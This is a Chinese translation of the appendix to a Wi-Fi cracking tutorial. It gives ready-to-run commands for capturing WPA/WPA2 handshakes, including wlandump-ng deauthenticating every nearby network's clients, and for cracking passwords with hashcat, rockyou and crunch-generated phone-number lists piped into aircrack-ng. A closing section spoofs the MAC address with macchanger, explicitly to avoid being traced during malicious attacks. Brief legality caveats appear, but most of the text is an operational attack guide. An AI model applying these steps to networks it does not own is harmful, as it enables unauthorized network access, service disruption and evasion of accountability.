 # 附录
在本教程初次发布之后，来自互联网各个角落的一些人提出了意见和建议。 在努力保持原始教程简短而优美的基础上，我在这里介绍了有关他们精彩建议的信息，并添加了我自己的一些。 在这里，你可以找到以下信息：

- 在 MacOS/OSX 上破解 WI-FI
- 利用 `wlandump-ng` 抓取 handshake 
- 利用 `crunch` 生成单词列表
- 利用 `macchanger` 保护你的身份

## 在 MacOS/OSX 上破解 WI-FI

非常感谢 [@harshpatel991](https://github.com/harshpatel991) 提供本指南。下面会介绍如何使用 MacOS/OSX 自带的工具抓取 4-way handshake，然后再通过 naive-hashcat 来找出一个 WPA/WPA2 无线网络的密码。 此方法已在 OSX 10.10 和 10.12 上进行测试，不过也可能适用于其他版本。 像主教程一样，我们假设你有一个支持 [监测模式](https://en.wikipedia.org/wiki/Monitor_mode) 的[无线网卡](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)。我们在 2012 年上半年和 2015 年中期这两款 MacBook Pro 上进行了测试，并取得了巨大的成功。

### 无线诊断工具

幸运的是，OSX 配备了一套无线诊断工具。 要打开它们，请在按住键盘上 option 键的同时，点击菜单栏中的 Wi-Fi 图标。 然后选择“打开无线诊断...”

### 测定目标网络信道

打开无线诊断程序，单击**窗口** > **扫描**。 找到目标网络，记录下其信道和宽度。

### 抓取一个 4-way handshake 

1. 在无线诊断程序打开的情况下，点击菜单栏中的**窗口** > **嗅探器**。选择你在上一步中找到的信道和宽度。
2. 现在，你需要等待有设备连接到目标网络。如果你正在自己的网络上测试（使用者应当只在自己的网络上进行测试），将任意一个无线设备重新连接就可以抓取 handshake。
3. 当你感觉已经成功抓取 handshake 时，点击停止。
4. 根据你的操作系统版本，抓取的 `.wcap` 文件将被保存到桌面或`/var/tmp/`。
5. 将抓取的文件上传到 https://hashcat.net/cap2hccapx/ 就可以将其转换为 `.hccapx` 文件。 如果你成功的抓到了 handshake ，站点将开始下载一个`.hccapx`文件。 否则将不会提示下载。

### 利用 `naive-hashcat` 破解密码

```bash
# 克隆 naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 在 MacOS/OSX 上从原代码构建程序
./build-hashcat-osx.sh

# 下载 134MB rockyou字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

最后，运行 `naive-hashcat.sh`。将 `handshake.hccapx` 名称改成你从 [hashcat.net](https://hashcat.net/cap2hccapx/) 下载的文件名称。`cracked.pot`是输出文件名称。

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

再次感谢 [@harshpatel991](https://github.com/harshpatel991)，以及 [phillips321](http://www.phillips321.co.uk/) 关于如何在 OSX 上构建 hashcat 的[帖子](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/)。

## 使用 `wlandump-ng` 抓取 handshake 

[@enilfodne](https://github.com/enilfodne) 提到 hachcat 社区有一个[更棒的工具](https://github.com/brannondorsey/wifi-cracking/issues/15)可以抓取 WPA 的 4-way handshakes。它是 hashcat 工具包的一部分，叫 [hcxtools](https://github.com/ZerBea/hcxtools) ，由 [ZerBea](https://github.com/ZerBea) 开发，名声已经超过了 `airdump-ng`。`wlandump-ng` 允许你一次性从每个附近的网络上全面抓取 handshake 信息，跳过 Wi-Fi 信道，以增加收集。


```bash
# 克隆 hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# 一旦你获得了抓取的文件，你可以利用以下命令将其转换成hashcat抓取格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` 命令行参数（使用 `h` 标志来获得完整列表）：

- `-c 1`：从通道 1 开始的 2.4Ghz 范围（将转到13）
- `-t 60`：每个通道停留 60s（实验值较低，默认值为 5）
- `-d 100`：发送 deauth 每 100 个信标帧
- `-D 10`：每隔 10 个信标帧发送解析数据包
- `-m 512`：内部缓冲区大小，对于低资源机器使用 512
- `-b`：激活信号到最后 10 个探测请求
- `-r`：如果循环在通道 1 上，则重置 deauthentication / detachosciation 计数器
- `-s 20`：显示 20 条状态行

**警告：** 在大多数地方使用这个是不合法的。更多信息请参考[这里](https://github.com/ZerBea/hcxtools#warning)。

`wlandump-ng` 也提供了在被动模式下运行的选项，这时不会发送任何 deauth/disassociation 数据帧。 如果担心会影响到周围人使用网络（你应该是）时建议你使用这种模式。代价是你获得的 handshake 会少得多，不过用这种方法抓取不会被人察觉。

```bash
# 在被动模式下使用默认设置运行
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## 使用 `crunch` 生成单词列表

`crunch` 是使用给定字符串或模式的组合生成单词列表的工具。 我们可以使用 crunch 来即时生成密码列表，再通过管道传递给 `aircrack-ng` 而不必将单词列表保存到磁盘。


```bash
# 安装crunch
sudo apt-get install crunch
```

要想知道如何运行 crunch，可以从命令行运行（一旦开始发送密码，就可以按 `ctrl-c`）：

```bash
# 语法 8 8 是生成密码的最小长度和最大长度
# 01234567890 是组合/排列构成密码的一组字符
crunch 8 8 0123456789
```

```
Crunch 现在将生成以下数据量：900000000字节
858 MB
0 GB
0 TB
0 PB
Crunch 现在将生成以下行数：100000000
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

我们可以将 `crunch` 的输出作为 `aircrack-ng` 的输入，使用它生成的密码作为我们的单词列表。 这里我们使用 `crunch` 特殊规则字符 `%` 来表示数字。 此命令尝试破解10位电话号码的 WPA 密码（使用 crunch 即时生成的 102GB 的号码）：

```bash
# 我们也可以使用 -t "@^%,"  使用模式 '@' 替换小写 ',' － 替换大写
# '%' －替换数字以及 '^' － 替换特殊字符
# *************** 不要忘记最后的 '-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

感谢 [@hiteshnayak305](https://github.com/hiteshnayak305) 介绍 `crunch` 并将此次更新作为 [PR](https://github.com/brannondorsey/wifi-cracking/pull/17)。

## 利用 `macchanger` 保护你的个人信息

每当您使用 Wi-Fi 进行任何远程恶意攻击时，最好将你 Wi-Fi 设备的 MAC 地址进行伪装，避免被人通过网络流量里的设备信息找到你。

这是利用 `macchanger` 的一个小尝试：

```bash
# 下载 MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变 mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，最好把所有的设备都改一遍。 或者当你尝试抓取 handshake 时干脆把不用的设备都关掉，尽可能少地留下痕迹。 请注意，重启后伪装的设备信息会恢复。
